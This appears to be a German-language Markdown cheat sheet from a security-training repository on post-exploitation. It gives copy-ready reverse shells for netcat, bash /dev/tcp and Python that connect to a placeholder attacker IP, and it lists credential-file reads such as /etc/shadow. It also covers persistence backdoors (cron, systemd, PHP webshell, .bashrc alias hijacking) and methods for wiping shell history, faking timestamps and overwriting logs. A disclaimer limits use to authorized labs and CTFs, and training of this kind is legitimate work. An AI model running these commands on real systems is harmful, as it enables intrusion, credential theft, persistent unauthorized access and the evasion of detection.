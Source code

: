 # 🧪 postExploitationTools.md

## 📘 Kontext

Nach einem erfolgreichen Angriff (z. B. durch RCE oder SQL-Injection) beginnt die sogenannte **Post-Exploitation-Phase**.  
Hierbei geht es nicht mehr darum, _in ein System einzudringen_, sondern darum, was man _innerhalb_ des kompromittierten Systems erreichen kann.

### 🎯 Ziele der Post-Exploitation:

- **System- und Benutzerinformationen sammeln**
- **Persistenz herstellen**
- **Privilege Escalation (z. B. root-Rechte erlangen)**
- **Datenexfiltration**
- **Pivoting** (Zugriff auf weitere Systeme)
- **Verdeckte Backdoors / Remote Access installieren**

---

## 🔧 Nützliche Tools & Hilfsmittel

### 🛠️ Lokale Tools auf dem Zielsystem

| Befehl / Tool     | Funktion |
|-------------------|----------|
| `uname -a`        | OS- und Kernel-Version anzeigen |
| `id`              | Aktueller Benutzer & Gruppen |
| `whoami`          | Aktueller Benutzername |
| `ps aux`          | Laufende Prozesse |
| `netstat -tulnp`  | Netzwerkverbindungen |
| `ss -tulnp`       | Modernere Alternative zu netstat |
| `find / -perm -4000` | SUID-Dateien (für Privilege Escalation) |
| `cat /etc/passwd` | Benutzerkonten anzeigen |
| `cat /etc/shadow` | Passwort-Hashes (nur als root lesbar) |
| `sudo -l`         | Prüfen, ob sudo-Rechte bestehen |
| `ls -la /home`    | Benutzerverzeichnisse |
| `ls -la /root`    | Root-Verzeichnis (falls zugänglich) |
| `history`         | Kommandoverlauf des aktuellen Benutzers |

---

### 📦 Tools für Dateidownloads & Kommandozugriff

| Tool / Methode | Beschreibung |
|----------------|--------------|
| `wget` / `curl` | Dateien herunterladen (z. B. Backdoor, Binary) |
| `nc` (Netcat)   | Reverse Shells, Dateiübertragung |
| `python3 -m http.server` | HTTP-Dateifreigabe vom Angreifer aus |
| `scp`           | Dateiübertragung via SSH |
| `bash -i >& /dev/tcp/IP/PORT 0>&1` | Bash-Reverse-Shell |
| `socat`         | Stabile Reverse Shells & Tunnels |
| `ssh-keygen` & `authorized_keys` | Persistenz durch SSH-Key-Hinterlegung |

---

## 🚀 Reverse Shell Snippets

### Netcat Reverse Shell:
```bash
nc -e /bin/bash YOUR-IP 4444
```

**Bash Reverse Shell:**
```bash
bash -i >& /dev/tcp/YOUR-IP/4444 0>&1
```

**Python Reverse Shell:**
```python
python3 -c 'import socket,subprocess,os; s=socket.socket(); s.connect(("YOUR-IP",4444)); os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2); p=subprocess.call(["/bin/sh"])'
```

---

## 🧰 Web-basierte Tools

| Tool                        | Beschreibung                                                     |
| --------------------------- | ---------------------------------------------------------------- |
| **LinPEAS**                 | Automatisierte Linux-Enum (Privilege Escalation)                 |
| **WinPEAS**                 | Windows-Enum (User, Services, Permissions)                       |
| **PowerUp**                 | PowerShell-basierte Privilege Escalation für Windows             |
| **pspy**                    | Beobachtet Prozesse ohne root                                    |
| **GTFOBins**                | Liste legitimer Linux-Kommandos, die zu Escalation führen können |
| **LOLBAS**                  | Windows-Äquivalent zu GTFOBins                                   |
| **chisel**                  | Tunneling Tool für Pivoting                                      |
| **sshuttle**                | VPN-ähnliches Tool für Netzwerktunneling                         |
| **Metasploit Post Modules** | z. B. Token Dumping, Hash Dumping etc.                           |

---

## 🔒 Persistenz-Techniken (nur zu Testzwecken!)

| Technik                             | Beispiel                           |
| ----------------------------------- | ---------------------------------- |
| SSH-Key im `~/.ssh/authorized_keys` | Dauerhafter Zugriff über Key       |
| Cronjob Backdoor                    | Automatisierte Shell bei Neustart  |
| Systemd-Service Backdoor            | `.service`-Datei mit Reverse Shell |
| Webshell in `/var/www/html`         | PHP-Webshell auf dem Webserver     |
| Bash-Alias Hijacking                | `.bashrc` mit `alias sudo='...'`   |

---

## 🧼 Spuren verwischen

| Methode      | Beschreibung                           |
| ------------ | -------------------------------------- |
| `history -c` | Shell-History löschen                  |
| `touch -d`   | Dateizeitstempel manipulieren          |
| `shred`      | Dateien sicher löschen                 |
| `logrotate`  | Logdateien überschreiben oder rotieren |

⚠️ Viele dieser Methoden sind leicht detektierbar – nicht „invisible“!

---

## ⚠️ Haftungsausschluss

Dieses Repository dient ausschließlich zu Ausbildungs-, Forschungs- und Demonstrationszwecken im Bereich der IT-Sicherheit.

Alle hier dokumentierten Techniken und Tools dürfen nur in legalen und autorisierten Testumgebungen verwendet werden – z. B. in Labors, CTFs oder mit ausdrücklicher Genehmigung des Eigentümers der Zielsysteme.

Wir distanzieren uns ausdrücklich von jeglicher illegalen Nutzung.
Dieses Projekt richtet sich an White-Hat-Sicherheitsforscher, Ethical Hacker und Auszubildende, die ethisch und rechtlich korrekt handeln.

--- 

Stay curious – stay secure. 🔐

🗓️ **Letzte Aktualisierung:** Juli 2025  
🤝 **Pull Requests willkommen** – Vorschläge für neue Kurse oder Kategorien gerne einreichen!


---

## 📚 Siehe auch:

- [sql_injection_to_shell.md](/03-web-security/sql-injection/sql_injection_to_shell.md)
- [php_rce_cheat_sheet.md](/03-web-security/phpWebShell/php_rce_cheat_sheet.md)
- [union_based_attack.md](/14-vulnerabilities/sqlInjection/union_based_attack.md)
